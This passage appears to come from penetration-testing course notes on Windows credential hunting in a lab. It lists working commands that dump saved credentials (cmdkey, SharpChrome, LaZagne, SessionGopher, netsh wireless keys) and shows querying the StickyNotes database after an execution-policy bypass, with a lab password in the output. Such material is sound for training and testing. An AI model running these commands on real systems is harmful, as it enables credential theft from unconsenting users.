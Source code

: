 | `where /R C:\ *.config` |Search for file extensions|
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore` |Search for file extensions using PowerShell|
| `cmdkey /list` | List saved credentials |
| `.\SharpChrome.exe logins /unprotect` | Retrieve saved Chrome credentials |
| `.\lazagne.exe -h` | View LaZagne help menu |
| `.\lazagne.exe all` | Run all LaZagne modules |
| `Invoke-SessionGopher -Target WINLPE-SRV01` | Running SessionGopher |
| `netsh wlan show profile` | View saved wireless networks |
| `netsh wlan show profile ilfreight_corp key=clear` | Retrieve saved wireless passwords |

> People often use the StickyNotes app on Windows workstations to save passwords and other information, not realizing it is a database file. This file is located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` and is always worth searching for and examining.

## Looking for StickyNotes DB Files

`where /R C:\ *.sqlite`
```
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\htb> cd .\PSSQLite\
PS C:\htb> Import-Module .\PSSQLite.psd1
PS C:\htb> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
 
Text
----
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96
\id=1a44a631-6fff-4961-a4df-27898e9e1e65 root:Vc3nt3R_adm1n!
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10am
```

> We can also copy them over to our attack box and search through the data using the `strings` command, which may be less efficient depending on the size of the database.


## Other Commands
